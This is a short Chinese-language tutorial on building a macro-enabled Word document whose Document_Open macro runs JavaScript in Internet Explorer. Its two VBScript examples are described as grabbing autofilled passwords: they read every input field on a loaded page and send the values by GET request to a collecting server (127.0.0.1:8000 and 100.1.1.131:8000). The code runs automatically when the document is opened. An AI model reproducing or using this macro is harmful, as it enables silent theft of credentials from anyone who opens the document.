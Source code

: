 ## 执行 JavaScript

1. 新建启用宏的 word 文档 `VBA_JS.docm`

2. 在 Word 中编辑宏脚本

3. 在“工程 – Project”窗口中，双击“Microsoft Word 对象”，再双击“ThisDocument”。

4. 此时在右侧代码窗口顶部，会看到两个列表框，单击左侧下拉列表，将其从“（通用）”更改为“Document”，单击右侧下拉列表，从列表中选择“Close”或“Open”以插入 Document_Close()或 Document_Open()过程，或者可直接在代码窗口输入过程名。

5. 在代码框中输入代码，例如获取自动填充的密码并回传数据

```vbscript
Private Sub Document_Open()

Dim oBrowser As Object
Set oBrowser = CreateObject("InternetExplorer.Application")

'打开网页
oBrowser.Visible = True
oBrowser.Navigate "https://xx.xx.xx"

'等待页面加载完成
Do While oBrowser.ReadyState <> 4
    DoEvents
Loop

'执行 JavaScript 获取输入框的信息并通过 get 请求  http://127.0.0.1:8000?data=xxx 传输
oBrowser.Document.parentWindow.execScript "var inputElements = document.querySelectorAll('.el-input__inner');", "JavaScript"
oBrowser.Document.parentWindow.execScript "var data = ''; for (var i = 0; i < inputElements.length; i++) { data += inputElements[i].value + ' '; }", "JavaScript"
oBrowser.Document.parentWindow.execScript "var xhr = new XMLHttpRequest(); xhr.open('GET', 'http://127.0.0.1:8000" & "?data=' + data, true); xhr.send();", "JavaScript"
'关闭浏览器
oBrowser.Quit
Set oBrowser = Nothing

End Sub
```

```vbscript
Private Sub Document_Open()

Dim oBrowser As Object
Set oBrowser = CreateObject("InternetExplorer.Application")
oBrowser.Visible = True
oBrowser.Navigate "http://100.1.1.131:8000"
Do While oBrowser.ReadyState <> 4
    DoEvents
Loop
'执行 JavaScript 获取输入框的信息并通过 get 请求  http://100.1.1.131:8000?data=xxx 传输
oBrowser.Document.parentWindow.execScript "var inputElements = document.querySelectorAll('.el-input__inner');", "JavaScript"
oBrowser.Document.parentWindow.execScript "var data = ''; for (var i = 0; i < inputElements.length; i++) { data += inputElements[i].value + ' '; }", "JavaScript"
oBrowser.Document.parentWindow.execScript "var xhr = new XMLHttpRequest(); xhr.open('GET', 'http://100.1.1.131:8000" & "?data=' + data, true); xhr.send();", "JavaScript"
'关闭浏览器
oBrowser.Quit
Set oBrowser = Nothing

End Sub

```
